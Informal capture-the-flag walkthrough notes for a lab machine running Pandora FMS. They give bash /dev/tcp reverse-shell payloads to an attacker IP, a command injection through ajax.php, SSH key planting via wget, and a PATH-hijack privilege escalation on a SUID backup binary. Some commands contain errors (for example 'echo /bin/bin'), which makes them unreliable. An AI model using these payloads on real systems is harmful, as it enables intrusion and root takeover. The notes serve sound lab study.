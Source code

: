 	- change request type to post
	- pass this command at the bottom (a blank line in between the request and this)
```
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.25/9998 0>&1'
```
- Select everything from after "cmd=" and press Ctrl+U to url encode and then send the packet while listening on port 9998.
	- we get reverse shell 
-----------
- **Another way to get reverse shell without admin access**
	- php ajax.php vulnerability
		- capture packets via burp suite as matt logs in
	- we find an ajax.php file
		- https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities
			- can execute exploit in this post request
```
page=include/ajax/events&perform_event_response=10000000
&**target=bash -c 'bash -i >& /dev/tcp/10.10.14.25/9998 0>&1'&response_id=1
```
- we also need to url encode it (Ctrl+U in Burp Suite)
```
page=include/ajax/events&perform_event_response=10000000
&target=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.25/9997+0>%261'&response_id=1
```
- have netcat listener listening on port 9997
	- to gain access at matt user
## Privilege escalation
- on enumerating we do 
```
find / -type f -perm -4000 2>/dev/null
```
- and we find pandora_backup with root priv
	- yet we cant execute it
	- this is due to a restricted shell
		- why? we tried sudo -l and it gave a weird error:
```
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```
- https://gtfobins.github.io/gtfobins/at/#shell
	- can use at to break of of restricted shell
```
# tried but didnt work
```
- alternatively, create a ssh key in your local machine and send it to target "
```
python -m http.server:8001 # where you have the key
in target matchine /home/matt.ssh: wget 10.10.14.25:8001/matt.pub #get public key to .ssh directory
mv matt.pub authorized_keys
chmod 600 authorized_keys # VERY IMPORTANT
in local machine : chmod 600 matt
ssh -i matt matt@10.10.11.136 # should not get password prompt
```
- then in shell create tar file and make it executable with /bin/bash as entry(why? if you look at pandora_backup which we want to execute, that is the command which gets use root)
- create path to current directory
```
echo /bin/bin > tar
chmod +x tar
export PATH=$(pwd):$PATH
echo $PATH # should show current direvtory first now
/usr/bin/pandora_backup
```
- we gain root access
-------